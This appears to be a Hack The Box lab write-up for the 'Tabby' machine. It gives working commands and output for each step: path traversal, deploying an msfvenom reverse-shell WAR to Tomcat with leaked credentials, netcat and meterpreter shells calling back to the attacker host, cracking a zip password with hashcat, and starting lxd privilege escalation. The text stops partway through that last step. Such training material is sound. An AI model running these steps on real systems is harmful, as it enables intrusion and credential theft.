








# HTB - Tabby

## Overview


Short description to include any strange things to be dealt with

## Useful Skills and Tools

#### Useful thing 1

* description with generic example

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.194`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ sudo nmap -sSCV -p- -n -v -oA tabby 10.10.10.194
[sudo] password for zweilos: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 13:08 EDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 13:08
Completed NSE at 13:08, 0.00s elapsed
Initiating NSE at 13:08
Completed NSE at 13:08, 0.00s elapsed
Initiating NSE at 13:08
Completed NSE at 13:08, 0.00s elapsed
Initiating Ping Scan at 13:08
Scanning 10.10.10.194 [4 ports]
Completed Ping Scan at 13:08, 0.11s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:08
Scanning 10.10.10.194 [65535 ports]
Discovered open port 22/tcp on 10.10.10.194
Discovered open port 8080/tcp on 10.10.10.194
Discovered open port 80/tcp on 10.10.10.194
SYN Stealth Scan Timing: About 38.44% done; ETC: 13:10 (0:00:50 remaining)
Completed SYN Stealth Scan at 13:09, 77.94s elapsed (65535 total ports)
Initiating Service scan at 13:09
Scanning 3 services on 10.10.10.194
Completed Service scan at 13:10, 6.08s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.194.
Initiating NSE at 13:10
Completed NSE at 13:10, 1.79s elapsed
Initiating NSE at 13:10
Completed NSE at 13:10, 0.23s elapsed
Initiating NSE at 13:10
Completed NSE at 13:10, 0.00s elapsed
Nmap scan report for 10.10.10.194
Host is up (0.050s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 13:10
Completed NSE at 13:10, 0.00s elapsed
Initiating NSE at 13:10
Completed NSE at 13:10, 0.00s elapsed
Initiating NSE at 13:10
Completed NSE at 13:10, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.69 seconds
           Raw packets sent: 66728 (2.936MB) | Rcvd: 66596 (2.738MB)
```

/var/lib/tomcat9/webapps/ROOT/index.html

added megahosting.htb to hosts file


> We have recently upgraded several services. Our servers are now more secure than ever. Read our statement on recovering from the data breach

[http://megahosting.htb/news.php?file=statement](http://megahosting.htb/news.php?file=statement)


recently had a breach of some sort [http://megahosting.htb/news.php?file=statement](http://megahosting.htb/news.php?file=statement) replaced 'statement' with ../../../../etc/passwd and got the file

found username `ash`





[http://10.10.10.194:8080/docs/host-manager-howto.html](http://10.10.10.194:8080/docs/host-manager-howto.html)


`<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"> </user>`





how to use curl to send package to server



```text
Add command

Use the add command to add a new virtual host. Parameters used for the add command:

    String name: Name of the virtual host. REQUIRED
    String aliases: Aliases for your virtual host.
    String appBase: Base path for the application that will be served by this virtual host. Provide relative or absolute path.
    Boolean manager: If true, the Manager app is added to the virtual host. You can access it with the /manager context.
    Boolean autoDeploy: If true, Tomcat automatically redeploys applications placed in the appBase directory.
    Boolean deployOnStartup: If true, Tomcat automatically deploys applications placed in the appBase directory on startup.
    Boolean deployXML: If true, the /META-INF/context.xml file is read and used by Tomcat.
    Boolean copyXML: If true, Tomcat copies /META-INF/context.xml file and uses the original copy regardless of updates to the application's /META-INF/context.xml file.

Example command:

curl -u test:test http://localhost:8080/host-manager/text/add?name=www.awesomeserver.com&aliases=awesomeserver.com&appBase/mnt/appDir&deployOnStartup=true

Example response:

add: Adding host [www.awesomeserver.com]
```

[https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.216 LPORT=12543 -f war -o CRash.war
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of war file: 1599 bytes
Saved as: CRash.war
```

in msfconsole

```text
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > set lport 12543
lport => 12543
msf5 exploit(multi/handler) > set payload linux/meterpreter/reverse_tcp
[-] The value specified for payload is not valid.
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.216:12543
```

started my handler in msfconsole

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/host-manager/html/add?name=test&aliases=test&appBase=http://10.10.14.216:8099/CRash.war&deployOnStartup=true"
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
 <head>
  <title>403 Access Denied</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
 <body>
   <h1>403 Access Denied</h1>
   <p>
    You are not authorized to view this page.
   </p>
   <p>
    By default the Host Manager is only accessible from a browser running on the
    same machine as Tomcat. If you wish to modify this restriction, you'll need
    to edit the Host Manager's <tt>context.xml</tt> file.
```

upload did not work as in the Windows example, kept reading in the documentation, and found a way to deploy directly, without adding first

[http://10.10.10.194:8080/docs/manager-howto.html\#Deploy\_A\_New\_Application\_Archive\_\(WAR\)\_Remotely](http://10.10.10.194:8080/docs/manager-howto.html#Deploy_A_New_Application_Archive_%28WAR%29_Remotely)



In order to send the file

```text
-T, --upload-file <file>
              This transfers the specified local file to the remote URL. If there is no file part  in
              the  specified  URL,  curl  will  append  the local file name. NOTE that you must use a
              trailing / on the last directory to really prove to Curl that there is no file name  or
              curl will think that your last directory name is the remote file name to use. That will
              most likely cause the upload operation to fail. If this is used on an  HTTP(S)  server,
              the PUT command will be used.
```

I checked the man page for the correct options and found `-T`

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' -T CRash.war http://megahosting.htb:8080/manager/text/deploy?path=/CRash   
OK - Deployed application at context path [/CRash]
```

after troubleshooting...I realized that my payload was set to be run in the context of a linux machine, however, this was being run as a java file \(after the .war was unpacked, running on the web server\) so I changed my payload and tried again

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.216 LPORT=12543 -f war -o CRash.war       1 ⨯
Payload size: 1084 bytes
Final size of war file: 1084 bytes
Saved as: CRash.war
```

next I uploaded the new version \(had to change the name since the old one still existed\)

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ curl http://10.10.10.194:8080/CRash2/
```

Then I activated my reverse shell by curling the  

\[make sure to put the trailing `/`, it looks like it is doing something, but will give no output and wont work without it!!\]

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ nc -lvnp 12543
listening on [any] 12543 ...
connect to [10.10.14.216] from (UNKNOWN) [10.10.10.194] 53772
which python
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -lvnp 12543

┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ stty raw -echo                                                                            148 ⨯ 1 ⚙

┌──(zweilos㉿kali)-[~/htb/tabby]
                                   └─$                                                                  fg                        
[1]  + continued  nc -lvnp 12543
                                ^[[1;5C
```

I got a shell back on my nc listener, and attempted to upgrade my shell using python

```text
[*] Started reverse TCP handler on 10.10.14.216:12543 
[*] Command shell session 1 opened (10.10.14.216:12543 -> 10.10.10.194:53774) at 2020-10-12 15:00:22 -0400

^Z
Background session 1? [y/N]  y
msf5 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.216:4433 
[*] Sending stage (980808 bytes) to 10.10.10.194
[*] Meterpreter session 2 opened (10.10.14.216:4433 -> 10.10.10.194:47896) at 2020-10-12 15:00:45 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(multi/handler) > 
[*] Stopping exploit/multi/handler
whoami
[*] exec: whoami

zweilos
msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter >
```

setting `stty raw -echo` broke my nc shell, so I switched to msfconsole \(I think I may have had this problem with zsh before, will have to try with bash and see if it works properly\)

## Road to User

### Further enumeration

```text
meterpreter > shell
Process 8691 created.
Channel 3 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ ls -la
ls -la
total 20
drwxr-xr-x  5 root   root   4096 Oct 12 15:44 .
drwxr-xr-x 46 root   root   4096 Jun 17 16:22 ..
lrwxrwxrwx  1 root   root     12 Feb 24  2020 conf -> /etc/tomcat9
drwxr-xr-x  2 tomcat tomcat 4096 Feb 24  2020 lib
lrwxrwxrwx  1 root   root     17 Feb 24  2020 logs -> ../../log/tomcat9
drwxr-xr-x  2 root   root   4096 Oct 12 15:44 policy
drwxrwxr-x 10 tomcat tomcat 4096 Oct 12 19:13 webapps
lrwxrwxrwx  1 root   root     19 Feb 24  2020 work -> ../../cache/tomcat9
tomcat@tabby:/var/lib/tomcat9$ id
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
tomcat@tabby:/var/lib/tomcat9$ cd webapps
cd webapps
tomcat@tabby:/var/lib/tomcat9/webapps$ ls -la
ls -la
total 68
drwxrwxr-x 10 tomcat tomcat 4096 Oct 12 19:13 .
drwxr-xr-x  5 root   root   4096 Oct 12 15:44 ..
drwxr-x---  4 tomcat tomcat 4096 Oct 12 18:56 CRash
-rw-r-----  1 tomcat tomcat 1599 Oct 12 18:56 CRash.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 19:09 CRash2
-rw-r-----  1 tomcat tomcat 1084 Oct 12 19:09 CRash2.war
drwxr-xr-x  3 root   root   4096 May 19 23:09 ROOT
drwxr-x---  4 tomcat tomcat 4096 Oct 12 18:47 reev_shell
-rw-r-----  1 tomcat tomcat 1103 Oct 12 18:47 reev_shell.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 18:34 rev_shell
-rw-r-----  1 tomcat tomcat 1085 Oct 12 18:34 rev_shell.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 19:13 shell
-rw-r-----  1 tomcat tomcat 1085 Oct 12 19:13 shell.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 19:13 shell2
-rw-r-----  1 tomcat tomcat 1089 Oct 12 19:13 shell2.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 17:24 shell_m
-rw-r-----  1 tomcat tomcat 1094 Oct 12 17:24 shell_m.war
```

shsjks

```text
zweilos@kali:~/htb/tabby$ nc -lvnp 12543
listening on [any] 12543 ...
connect to [10.10.14.216] from (UNKNOWN) [10.10.10.194] 53782
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]+  Stopped                 nc -lvnp 12543
zweilos@kali:~/htb/tabby$ stty raw -echo
zweilos@kali:~/htb/tabby$ nc -lvnp 12543

tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm-256color
tomcat@tabby:/var/lib/tomcat9$ clear
```

I got annoyed at the lack of tab completion and other niceties so I tried backing out and starting my nc listener from bash, and was able to set raw stty with no problem

```text
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Jun 17 21:59 .
drwxr-xr-x 4 root root 4096 Jun 17 16:24 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement
```

in the /var/www/html/files folder I found some backup files

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
password incorrect--reenter:
```

exfiltrated the backup zip to my machine and tried to open it, but it was password protected

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ zip2john 16162020_backup.zip > ziphash
16162020_backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 16162020_backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 16162020_backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

I tried using zip2john to extract the zip hash for cracking, and got a message that some of the files might not be encrypted\

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ hashcat --help | grep -i pkzip                                     
  17200 | PKZIP (Compressed)                               | Archives
  17220 | PKZIP (Compressed Multi-File)                    | Archives
  17225 | PKZIP (Mixed Multi-File)                         | Archives
  17230 | PKZIP (Mixed Multi-File Checksum-Only)           | Archives
  17210 | PKZIP (Uncompressed)                             | Archives
  20500 | PKZIP Master Key                                 | Archives
  20510 | PKZIP Master Key (6 byte optimization)           | Archives
```

checked hashcat's help to see which filetype to use

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ hashcat -O -D1,2 -a0 -m17225 --username ziphash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Not-Iterated
* Single-Hash
* Single-Salt

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$:admin@it

Session..........: hashcat
Status...........: Cracked
Hash.Name........: PKZIP (Mixed Multi-File Checksum-Only)
Hash.Target......: $pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12ab...kzip2$
Time.Started.....: Mon Oct 12 15:51:13 2020 (2 secs)
Time.Estimated...: Mon Oct 12 15:51:15 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5105.5 kH/s (0.22ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10358784/14344385 (72.21%)
Rejected.........: 0/10358784 (0.00%)
Restore.Point....: 10354688/14344385 (72.19%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: adorotemanokax -> adjnp555

Started: Mon Oct 12 15:51:02 2020
Stopped: Mon Oct 12 15:51:16 2020
```

it took only a few secs to crack the password, which was `admin@it`

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```






The `index.php` file seems nearly identical to the one currently hosted...except for the email address sales@digitallandscape.com and other references to the name Digital Landscapes. It seems like the company did some rebranding recently.

### URLFinding user creds

### User.txt

```text
tomcat@tabby:/var/www/html/files$ su ash 
Password: 
ash@tabby:/var/www/html/files$ cd ~
ash@tabby:~$ ls -la
total 3160
drwxr-x--- 4 ash  ash     4096 Oct 12 20:26 .
drwxr-xr-x 3 root root    4096 Jun 16 13:32 ..
-rw-rw-r-- 1 ash  ash  3201249 Oct 12 19:59 alpine-v3.12-x86_64-20201012_2115.tar.gz
lrwxrwxrwx 1 root root       9 May 21 20:32 .bash_history -> /dev/null
-rw-r----- 1 ash  ash      220 Feb 25  2020 .bash_logout
-rw-r----- 1 ash  ash     3771 Feb 25  2020 .bashrc
drwx------ 2 ash  ash     4096 May 19 11:48 .cache
-rw-r----- 1 ash  ash      807 Feb 25  2020 .profile
drwxr-xr-x 3 ash  ash     4096 Oct 12 19:56 snap
-rw-r----- 1 ash  ash        0 May 19 11:48 .sudo_as_admin_successful
-rw-r----- 1 ash  ash       33 Oct 12 19:54 user.txt
ash@tabby:~$ cat user.txt 
e33e9ee57fa4cba7975b70a784092efa
```

The zip file seemed to be a dead-end, so I decided to try to use the password I had found on the only user I knew, `ash`, and was able to `su` over to that user!

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `ash`

```text
ash@tabby:~$ sudo -l
sudo: unable to open /run/sudo/ts/ash: Read-only file system
[sudo] password for ash: 
Sorry, user ash may not run sudo on tabby.
```

wierd error while trying to check sudo permissions

```text
ash@tabby:/dev/shm$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

plugdev and lxd sound interesting

```text
ash@tabby:/dev/shm$ uname -a
Linux tabby 5.4.0-31-generic #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### Getting a shell

[https://shenaniganslabs.io/2019/05/21/LXD-LPE.html](https://shenaniganslabs.io/2019/05/21/LXD-LPE.html)

```text
ash@tabby:/dev/shm$ lxd
Error: This must be run as root
ash@tabby:/dev/shm$ sudo lxd init
sudo: unable to open /run/sudo/ts/ash: Read-only file system
[sudo] password for ash: 
Sorry, try again.
[sudo] password for ash: 
ash is not in the sudoers file.  This incident will be reported.
ash@tabby:/dev/shm$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: yes
Name of the new storage pool [default=default]: test
Name of the storage backend to use (btrfs, dir, lvm, ceph) [default=btrfs]: dir
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
ash@tabby:/dev/shm$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:0e:0a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.194/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
3: lxdbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default qlen 1000
    link/ether d6:e6:3d:b8:e9:eb brd ff:ff:ff:ff:ff:ff
    inet 10.192.134.1/24 scope global lxdbr0
       valid_lft forever preferred_lft forever
    inet6 fd42:a03c:fcd2:592f::1/64 scope global 
       valid_lft forever preferred_lft forever
    inet6 fe80::d4e6:3dff:feb8:e9eb/64 scope link 
       valid_lft forever preferred_lft forever
```

```text
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20201012_2205.tar.gz --alias test
Error: Image with same fingerprint already exists

ash@tabby:/dev/shm$ lxc ls
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+
ash@tabby:~$ lxc start privesc
ash@tabby:~$ lxc list
